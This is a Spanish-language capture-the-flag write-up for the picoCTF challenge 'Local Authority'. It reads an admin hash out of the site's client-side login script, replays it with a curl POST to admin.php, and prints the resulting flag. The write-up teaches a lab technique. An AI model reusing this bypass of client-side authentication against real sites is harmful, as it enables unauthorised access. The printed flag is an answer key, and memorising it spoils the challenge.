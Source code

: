 # Local Authority

Can you get the flag? Go to this [website](http://saturn.picoctf.net:52194/) and see what you can discover.

Hint: How is the password checked on this website?

## Solucion
- Al hacer login, nos manda a login.php ahi viene un script
```javascript
<script type="text/javascript"> function filter(string) {
        filterPassed = true;
        for (let i =0; i < string.length; i++){
          cc = string.charCodeAt(i);
          
          if ( (cc >= 48 && cc <= 57) ||
               (cc >= 65 && cc <= 90) ||
               (cc >= 97 && cc <= 122) )
          {
            filterPassed = true;     
          }
          else
          {
            return false;
          }
        }
        
        return true;
      }
    
      window.username = "admin";
      window.password = "admin";
      
      usernameFilterPassed = filter(window.username);
      passwordFilterPassed = filter(window.password);
      
      if ( usernameFilterPassed && passwordFilterPassed ) {
      
        loggedIn = checkPassword(window.username, window.password);
        
        if(loggedIn)
        {
          document.getElementById('msg').innerHTML = "Log In Successful";
          document.getElementById('adminFormHash').value = "2196812e91c29df34f5e217cfd639881";
          document.getElementById('hiddenAdminForm').submit();
        }
        else
        {
          document.getElementById('msg').innerHTML = "Log In Failed";
        }
      }
      else {
        document.getElementById('msg').innerHTML = "Illegal character in username or password."
      } </script>
```

- El cual despues de validar envia un formulario a admin.php mediante post con el hash del admin
- Hacemos un POST request con el hash

```bash 
curl http://saturn.picoctf.net:52194/admin.php -d 'hash=2196812e91c29df34f5e217cfd639881'
```

<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <link rel="stylesheet" href="style.css">
    <title>Secure Customer Portal</title>
  </head>
  <body>
    picoCTF{j5_15_7r4n5p4r3n7_6309e949}  </body>
</html>

